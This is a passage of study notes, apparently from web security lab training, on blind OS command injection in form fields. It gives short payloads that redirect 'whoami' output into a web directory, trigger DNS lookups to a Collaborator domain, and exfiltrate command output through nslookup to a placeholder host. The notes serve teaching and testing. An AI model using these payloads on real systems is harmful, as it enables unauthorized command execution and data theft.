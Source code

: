 ```bash
& whoami > /var/www/static/whoami.txt &
```

For example, there may be a vulnerable email parameter in a feedback form. Try submitting various payloads to try and redirect the output to a specified file/directory such as `/var/www/images`:

![[Output TXT.png]]

If vulnerable, navigate to the directory.

>[!info]
>To find a directory or how to access the image, look at other images/static resources on the page.
# Blind Command Injection - OAST Interaction

You can use an injected command to trigger an out-of-band network interaction with a system like Collaborator such as:

```bash
& nslookup COLLABORATOR-DOMAIN &
```

This causes the `nslookup` command to cause a DNS lookup for the specified domain.

As an example, there may be a vulnerable parameter in a feedback form that is susceptible to blind OS command injection. If so, try injecting various payloads such as:

![[Collaborator.png]]

Check Collaborator for any DNS requests for successful OAST interaction.
# Blind Command Injection - OAST Exfiltration

An out-of-band channel can provide an easy way to exfiltrate the output from injected commands such as:

```bash
& nslookup `whoami`.COLLABORATOR-PAYLOAD.com &
```

It can cause a DNS lookup to the domain containing the result of the whoami command:

```http
username.COLLABORATOR-PAYLOAD.com
```

For example, there may be a feedback form that provides no content returned back. Try injecting a blind command injection payload to confirm if it is vulnerable:

```bash
& nslookup COLLABORATOR-PAYLOAD.com #
```

![[Nslookup.png]]

The same payload can be used with backticks to make it execute another command that appears inside the backticks

